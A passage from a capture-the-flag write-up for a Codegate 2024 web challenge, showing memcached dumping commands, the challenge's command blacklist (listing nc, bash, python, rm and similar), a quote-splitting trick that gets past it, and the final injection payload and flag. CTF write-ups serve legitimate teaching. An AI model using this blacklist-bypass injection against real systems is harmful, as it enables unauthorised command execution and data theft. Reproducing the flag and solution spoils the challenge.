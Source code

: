 In my case, the new session cookie's value is `1798d735-438c-4513-8685-014f4df3f187`.

Then, Login to the exposed "internal" **Flask** web application:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Codegate-CTF-2024-Preliminary/images/Pasted%20image%2020240602195047.png)

> Note: Normally, the Flask web application respond us with the `whoami` command output. However, in my case, the challenge instance's socket connection seems to be down.

Now, how can we get the flag from the `flag` key in the memcached database??

By researching for a little bit about memcached, we can find **[this GitBook](https://chinnidiwakar.gitbook.io/githubimport/pentesting/11211-memcache#manual2)**:

```bash
sudo apt install libmemcached-tools
memcstat --servers=127.0.0.1 #Get stats
memcdump --servers=127.0.0.1 #Get all items
memccat  --servers=127.0.0.1 <item1> <item2> <item3> #Get info inside the item(s)
```

In the above commands, we can **use `memccat` to get the `key` flag via this command**:

```bash
memccat --servers=127.0.0.1 flag
```

**However, we can't just send the `command` parameter with this value: `admin://memccat --servers=127.0.0.1 flag` because of the blacklist filter:**
```python
filtered = ["memccat", "memcstat", "memcdump", "nc", "bash", "/bin", "/sh", "export", "env", "socket", "connect", "open", "set", "membash", "delete", "flush_all", "stats", "which" , "python", "perl", "rm", "mkdir", ".", "/"]
```

As you can see, the word `memccat` and character `.` is included in the blacklist. Luckily, it's very easy to bypass it.

To bypass the blacklist filter, we can **use quotes to concatenate the word `memccat`**: (From [HackTricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-paths-and-forbidden-words))

```bash
admin://"m"e"m"c"c"a"t --servers=127.0.0.1 flag
```

Then, the character `.`, we can just **replace it with `localhost`**, which points to `127.0.0.1`!

**Hence, here's the final payload:**
```bash
admin://"m"e"m"c"c"a"t --servers=localhost flag
```

By sending this payload, we should be able to get the flag!

- **Flag: `codegate2024{Important_DATA_DO_NOT_SAVE_IN_MEMCACHE}`**

## Conclusion

What we've learned:

1. Flask misconfiguration